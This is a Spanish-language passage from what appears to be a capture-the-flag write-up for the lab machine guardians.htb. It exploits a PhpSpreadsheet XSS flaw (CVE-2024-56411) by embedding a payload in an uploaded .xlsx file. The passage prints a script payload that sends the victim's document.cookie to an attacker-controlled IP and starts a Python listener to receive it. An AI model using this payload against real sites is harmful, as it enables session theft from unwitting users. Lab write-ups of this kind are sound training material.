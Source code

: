Info:

```json
{
    "require": {
        "phpoffice/phpspreadsheet": "3.7.0",
        "phpoffice/phpword": "^1.3"
    }
}
```

Hay una version de `PHP` por asi decirlo, si buscamos informacion de dicha version veremos que tiene efectivamente una vulnerabilidad asociado a el para poder realizar un `XSS`.

La vulnerabilidad se llama `PhpSpreadsheet has a Cross-Site Scripting (XSS) vulnerability of the hyperlink base in the HTML page header` y encontraremos informacion en esta `URL`.

URL = [Exploit CVE-2024-56411 XSS](https://github.com/advisories/ghsa-hwcp-2h35-p66w)

Vemos que con un `payload` podremos injectar un comando subiendo un archivo `.xlsx` de una hoja de calculos a la pagina.

> Payload

```html
"><img src=x onerror=fetch('http://<IP>/?c='+btoa(document.cookie))>
```

Si volvemos a la pagina principal en `guardians.htb` y entramos en el panel del usuario de las credenciales que ya obtuvimos, si empezamos a probar esto, veremos que hay alerts en la parte de `assignments.php`, pero en el unico que pone `upcoming` veremos que nos deja entrar y subir un archivo `doc` o `xlsx`, por lo que por ahi tendremos que subir dicho `exploit` de la vulnerabilidad que encontramos.

Para ello utilizaremos una pagina para crear un archivo de `XLSX` real, pero con nuestro `payload` implementado en el mismo, para que cuando lo carguemos se ejecute.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 100259.png" alt=""><figcaption></figcaption></figure>

URL = [Pagina Hoja de calculos Online](https://www.treegrid.com/FSheet?source=post_page-----7f112334f10b---------------------------------------)

Ahora dentro de la pagina si nos vamos a este boton:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 100405.png" alt=""><figcaption></figcaption></figure>

Que estara abajo a la izquierda, se nos abrira algo asi:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 100429.png" alt=""><figcaption></figcaption></figure>

Le daremos al boton de añadir una seccion y como contenido pondremos el `payload` anterior que he mostrado, una vez echo esto vamos a guardarlo y exportarlo.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 100744.png" alt=""><figcaption></figcaption></figure>

Antes de enviarlo nos pondremos a la escucha con un servidor de `python3`.

```shell
python3 -m http.server 80
```
